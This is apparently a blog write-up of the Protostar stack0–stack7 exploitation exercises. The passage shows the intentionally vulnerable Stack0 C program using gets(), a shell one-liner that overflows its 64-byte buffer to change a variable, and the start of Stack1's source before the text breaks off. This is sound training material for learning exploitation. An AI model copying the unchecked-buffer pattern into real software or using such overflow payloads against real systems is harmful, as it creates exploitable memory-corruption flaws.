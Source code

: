 +++
author = "pwntester"
categories = ["protostar", "stack0", "stack1", "stack2", "stack4", "stack5", "stack6", "stack7", "stack3"]
date = 2013-12-17T20:39:00Z
description = ""
draft = false
slug = "protostar-stack0-7-write-up"
tags = ["protostar", "stack0", "stack1", "stack2", "stack4", "stack5", "stack6", "stack7", "stack3"]
title = "Protostar stack0-7 write-up"

+++

## Stack0
In [Stack0](http://www.exploit-exercises.com/protostar/stack0) we need to exploit the following program:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
    printf("you have changed the 'modified' variable\n");
  } else {
    printf("Try again?\n");
  }
}
```

Since **modified** variable is between saved **EBP** and **buffer** any character overflowing **buffer** will change **modified**:

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("A"*64)'` | /opt/protostar/bin/stack0
Try again?
user@protostar:~$ echo `python -c 'print("A"*65)'` | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

##Stack1
[Stack1](http://www.exploit-exercises.com/protostar/stack1) is similar but now we have to set modified to the hexadecimal value: 0x61626364

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
    errx(1, "please specify an argument\n");
  }
```